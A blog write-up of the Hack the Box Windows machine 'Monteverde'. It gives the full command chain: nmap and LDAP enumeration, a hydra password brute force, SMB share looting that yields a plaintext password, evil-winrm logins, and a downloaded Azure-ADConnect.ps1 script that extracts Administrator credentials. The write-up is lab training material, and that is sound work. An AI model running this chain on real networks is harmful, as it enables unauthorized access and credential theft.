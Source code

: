 +++
author = "Nick"
categories = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
date = 2020-06-13T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/01/info.png"
slug = "hack-the-box-monteverde"
summary = "Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine."
tags = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
title = "Hack the Box - Monteverde"

+++


Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine.

Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.172`

Here are our results:
```
Nmap scan report for 10.10.10.172
Host is up (0.19s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-15 20:40:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/15%Time=5E1F7660%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 10m35s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-15T20:43:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 15:35:20 2020 -- 1 IP address (1 host up) scanned in 1691.42 seconds
```

We see that we have a bunch of ports open. We see some SMB, RPC, DNS and LDAP. To further our enumeration we will use `enum4linux`. We'll also add `megabank` to our hosts file for further usage.

Command:
`enum4linux -A 10.10.10.172`

This returns a large set of results. The key things we get from this are:

* The domain.
* A user list.
* Domain group memberships.

We'll also try to null authenticate to the SMB port via `smbclient` or `smbmap` but we get no results.

Much like we did in the machine Resolute, we will make a few LDAP queries to see if there is any data stored in the user's AD variables.

Command:
`ldapsearch -x -h megabank -b 'dc=megabank,dc=local' "(&(objectClass=user))" `

We'll take these and put them into a list for use later. I created two lists, one with the domain prefix and another without. We didn't see any data in the AD fields associated with the user accounts. Now we have a few options, with a username list we can try and brute force our way in or continue to look for leaky data and services. Why not both?

First we'll try to use the account name as a password, then we'll try a password list like rockyou. For this we'll use `hydra`. 

Command:
`hydra -L users-nodm.lst -P users-nodm.lst 10.10.10.172 ldap2`

We use the `-L` to specify a username list. 
The `-P` is for a password list.
Then the IP followed by the service we want to use.

{{< figure src="__GHOST_URL__/content/images/2020/01/monte_user.gif" >}}

We get a match! `SABatchJobs`:`SABatchJobs`. 

Well, I did not expect that. Normally I would continue with Rockyou.txt but the box is already pretty unstable connection wise, so we'll opt out of that for now and see where we can get with these service account credentials.

Since we have a set of credentials and we know that `WinRM` is running we can try to leverage `evil-winRM`. We try to login but we aren't able to. Next we'll want to try to use these authenticated credentials in order to enumerate the previously spotted `SMB` port.

Command:
`smbmap -u SABatchJobs -p SABatchjobs -H 10.10.10.172`

{{< figure src="__GHOST_URL__/content/images/2020/01/monte_smb.gif" >}}

We get a few shares back - C$, E$, azure_uploads, NETLOGON, SYSVOL and users$.

The users$ share is read only, so we'll first start by connecting to this and seeing if there are any credentials saved by the users in thier home directories.

Command:
`smbclient -U SABatchJobs //10.10.10.172/users$`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-46.png" >}}

We start looking into each users directory. We only find one file, azure.xml, in mhope's home directory. We download the file with `get`. When we open it up, we see some credentials!

{{< figure src="__GHOST_URL__/content/images/2020/01/image-47.png" >}}

Armed with this potential password, we'll try to authenticate as mhope.

Command:
`evil-winrm -i 10.10.10.171 -u mhope -p 4n0therD4y@n0th3r$`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-48.png" >}}

We head over to mhope's Desktop and get our User.txt flag. We start to enumerate internally now. We see that `net user mhope` shows him as part of the Azure admins.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-49.png" >}}

I then like to run [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum) on a machine to get a basic idea of my rights and what I can see from the current user. Right away we see Microsoft AADSync. Since I've spent time as a System Engineer, I knew this was the immediate path I would take.

There is a powershell script called [Azure-ADConnect](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) that will extract the password from the ADSync database. You can also read more on it [here](https://blog.xpnsec.com/azuread-connect-for-redteam/) as well.

The first thing we do is `curl` or `wget` the script.

Command:
`wget https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1`

Next we upload the file via our Evil-WinRM session.

Command:
`upload Azure-ADConnect.ps1`

Next we import the module. Then supply the database location and name and let it rip!

Command:
`import-module ./Azure-ADConnect.ps1`
`Azure-ADConnect -server 127.0.0.1 -db ADSync`

{{< figure src="__GHOST_URL__/content/images/2020/01/monte_admin_cred.gif" >}}

Now we have the Administrator credentials, we can try and log back in via Evil-WinRM to see if they work.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-50.png" >}}

They do work! We log in, head over to the Administrator's Desktop and snag the root.txt flag!

Hopefully everyone was able to take something away from this blog post. If so, think about sending me some respect over on HTB. Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



